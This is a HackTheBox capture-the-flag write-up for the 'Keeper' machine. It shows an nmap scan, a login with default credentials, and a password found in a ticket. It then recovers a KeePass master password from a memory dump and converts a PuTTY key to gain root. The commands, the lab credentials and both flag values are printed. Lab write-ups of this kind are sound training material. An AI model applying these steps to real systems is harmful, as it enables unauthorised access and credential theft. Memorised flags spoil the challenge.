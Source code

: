```yaml
---
categories: [HackTheBox]
tags: [Keepass, PrivEsc, putty_gen]
image:
  path: /Vulnhub-Files/img/Keeper/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/556
---
```






![Untitled](/Vulnhub-Files/img/Keeper/Untitled.png)

 ⭐ [Box Profile](https://www.hackthebox.com/achievement/machine/595651/556)

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ sudo nmap -sC -sV -T4 10.10.11.227 -oN Nmap_results.txt

Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-28 13:17 IST
Nmap scan report for 10.10.11.227
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site does not have a title (text/html).
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

On loading the port 80 I got this redirect link →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%201.png)

Now when I get the /etc/hosts file as `tickets.keeper.htb`  I got this Request Tracker page Login Page →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%202.png)

Now with default credentails I used username : root , password : password and I got into the login page →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%203.png)

While Enumeration I got this content →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%204.png)

I got a username and the password in comments column →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%205.png)

Credentials →

```bash
lnorgaard : Welcom2023!
```

## Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ ssh lnorgaard@keeper.htb    
The authenticity of host 'keeper.htb (10.10.11.227)' cant be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb is password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https:/help.ubuntu.com
 * Management:     https:/landscape.canonical.com
 * Support:        https:/ubuntu.com/advantage
Failed to connect to https:/changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Mon Aug 28 10:13:23 2023 from 10.10.15.16
lnorgaard@keeper:~$
```

Lets dig deeper →

```bash
lnorgaard@keeper:~$ ls -al
total 333032
drwxr-xr-x 5 lnorgaard lnorgaard      4096 Aug 28 09:58 .
drwxr-xr-x 3 root      root           4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root              9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard       220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard      3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard      4096 May 24 16:09 .cache
drwx------ 3 lnorgaard lnorgaard      4096 Aug 28 09:13 .gnupg
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rw------- 1 lnorgaard lnorgaard        20 Aug 28 09:34 .lesshst
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
-rw-rw-r-- 1 lnorgaard lnorgaard      2735 Aug 28 09:40 poc.py
-rw------- 1 lnorgaard lnorgaard       807 May 23 14:43 .profile
-rw------- 1 lnorgaard lnorgaard         5 Aug 28 09:15 .python_history
-rw-rw-r-- 1 lnorgaard lnorgaard    156929 Aug 28 09:14 res.txt
-rw-r--r-- 1 root      root       87391651 Aug 28 10:28 RT30000.zip
drwx------ 2 lnorgaard lnorgaard      4096 Jul 24 10:25 .ssh
-rw------- 1 lnorgaard lnorgaard     12288 Aug 28 09:08 .swp
-rw-r----- 1 root      lnorgaard        33 Aug 28 09:00 user.txt
-rw-r--r-- 1 root      root             39 Jul 20 19:03 .vimrc
lnorgaard@keeper:~$ cat user.txt 
2b10a78fdfebe350af5b4f9635b38c6a
lnorgaard@keeper:~$
```

Now I extracted this RT30000.zip file in my host machine and got 2 files 1 file contains dumps of that passwords which will be used to crack the other file which is a keepass password file named as `passcodes.kdbx`

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%207.png)

To crack this password I need to download a .NET script to extract the password from this .dmp file →

https:/github.com/CMEPW/keepass-dump-masterkey

Now I extracted the password using this above code →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ python3 poc.py -d KeePassDumpFull.dmp
2023-08-28 15:24:07,331 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

I have to guessed it but I searched on web and it is Dutch language →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%208.png)

so lets extract this data →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%2010.png)

Now I got this putty id_rsa key so I copied all the Notes content into `keeper.txt` file and for making it into its `id_rsa` format I have used a script called puttygen and specified its type and output file →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ puttygen keeper.txt -O private-openssh -o id_rsa
```

Now Lets login into the root with this private key and also change its file permission to 600 →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ sudo ssh root@tickets.keeper.htb -i id_rsa
The authenticity of host 'tickets.keeper.htb (10.10.11.227)' cant be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'tickets.keeper.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https:/help.ubuntu.com
 * Management:     https:/landscape.canonical.com
 * Support:        https:/ubuntu.com/advantage
You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls -al
total 85384
drwx------  5 root root     4096 Jul 27 13:57 .
drwxr-xr-x 18 root root     4096 Jul 27 13:52 ..
lrwxrwxrwx  1 root root        9 May 24 15:54 .bash_history -> /dev/null
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc
drwx------  2 root root     4096 May 24 16:58 .cache
-rw-------  1 root root       20 Jul 27 13:57 .lesshst
lrwxrwxrwx  1 root root        9 May 24 15:54 .mysql_history -> /dev/null
-rw-r--r--  1 root root      161 Dec  5  2019 .profile
-rw-r-----  1 root root       33 Aug 28 13:13 root.txt
-rw-r--r--  1 root root 87391651 Jul 25 19:56 RT30000.zip
drwxr-xr-x  2 root root     4096 Jul 25 20:11 SQL
drwxr-xr-x  2 root root     4096 May 24 16:09 .ssh
-rw-r--r--  1 root root       39 Jul 20 19:03 .vimrc
root@keeper:~# cat root.txt
e034f821aeb7de6d2677c1776ac482b8
root@keeper:~#
```